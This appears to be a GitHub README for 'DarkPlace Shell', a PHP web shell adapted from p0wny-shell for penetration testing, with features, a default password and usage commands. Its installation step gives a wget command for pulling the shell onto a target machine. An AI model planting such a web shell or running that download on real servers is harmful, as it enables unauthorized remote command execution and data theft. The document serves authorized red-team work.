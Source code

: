 # DarkPlace Shell

Welcome to **DarkPlace**, a simple web-based shell interface built using PHP. This application allows authenticated users to execute shell commands directly from their web browser.
Modified from the original to be used more safely during Penetration Testing and Red Team activities.

## Features

- **Authentication**: Secure access with a hardcoded password.
- **Shell Commands**: Execute various shell commands like `cd`, `download`, and more.
- **File Upload/Download**: Upload files to the server and download files from it.
- **Command History**: Navigate through previously entered commands using arrow keys.
- **Dynamic Prompt**: Displays the current working directory and user information.

## Getting Started

### Prerequisites

- PHP (>= 7.0)
- A web server (e.g., Apache, Nginx) with PHP support

### Installation

1. You can use wget for this shell directly from the target for an upgrade (via a simple shell):
   ```bash
   wget -O darkshell.php https://raw.githubusercontent.com/DarkSolo/DarkShell/refs/heads/main/DarkShell.php
   ```

2. Configure your web server to point to the cloned directory.

3. Open the web browser and navigate to your server's address.

4. Enter password: `YouHaveBeenHacked!` if you have not changed it. Are you sure you don't want to change huh?!

### Usage

Once logged in, you can start entering shell commands in the provided input field. Use commands such as:

- `download <filename>` - Download a file from the server
- `upload <filepath>` - Upload a file to the server
- any other shell command (almost all)

### Security Considerations

This application is intended for educational purposes only. Do not use it in a production environment without implementing proper security measures.
Performing hacking attempts on computers that you do not own (without permission) is illegal! Do not attempt to gain access to device that you do not own.

### Original Script

This project is based on the initial script from [p0wny-shell](https://github.com/flozz/p0wny-shell/tree/master).


## Acknowledgments

- [PHP](https://www.php.net/)
- [HTML/CSS](https://www.w3.org/)
- Inspiration from various web shell implementations.
